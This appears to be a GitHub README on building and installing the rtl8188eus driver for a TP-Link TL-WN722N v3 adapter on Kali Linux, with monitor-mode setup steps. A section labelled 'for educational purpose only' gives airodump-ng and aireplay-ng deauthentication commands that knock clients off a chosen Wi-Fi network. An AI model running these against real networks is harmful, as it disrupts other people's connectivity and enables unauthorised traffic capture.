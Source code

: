 # tp-link-v3-TL-WN722N
realtek-rtl8188eus-dkms packaging for Kali Linux


apt update

apt dist-upgrade

reboot

apt install linux-headers-$(uname -r) 

sudo apt install bc

sudo rmmod r8188eu.ko

git clone https://github.com/aircrack-ng/rtl8188eus

cd rtl8188eus

sudo -i

echo "blacklist r8188eu.ko" > "/etc/modprobe.d/realtek.conf"

exit

make

sudo make install

sudo modprobe 8188eu



To enable Monitor mode

ifconfig wlan0 down

airmon-ng check kill

iwconfig wlan0 mode monitor

ifconfig wlan0 up

iwconfig                                     \\check mode: monitor



Deauthentication Attack[for educational purpose only]



airodump-ng wlan0

airodump-ng --bssid <id> --channel <ch> --write test wlan0

aireplay-ng --deauth [any no.] -a <bssid> -c <station id> wlan0


Important note: 

If after restarting your kali machine doesn't recognise your device..
As lot of people are facing the same problem ..
I have a solution for you..
Whenever you restart your kali OS
Insert the adapter and run the command


sudo rmmod r8188eu.ko

Sudo modprobe 8188eu

Disconnect the device and connect again..
